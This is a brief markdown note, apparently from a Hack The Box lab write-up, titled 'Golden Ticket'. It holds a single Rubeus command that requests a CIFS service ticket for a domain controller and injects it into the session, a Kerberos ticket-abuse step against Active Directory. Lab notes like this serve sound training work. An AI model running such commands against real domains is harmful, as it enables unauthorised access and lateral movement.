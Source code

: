 ## Golden Ticket
[[Impacket]]
```
./Rubeus.exe asktgs /ticket:ticket.kirbi /service:CIFS/DC01.GHOST.HTB /dc:GHOST.HTB /ptt /outfile:ticket.kirbi
```
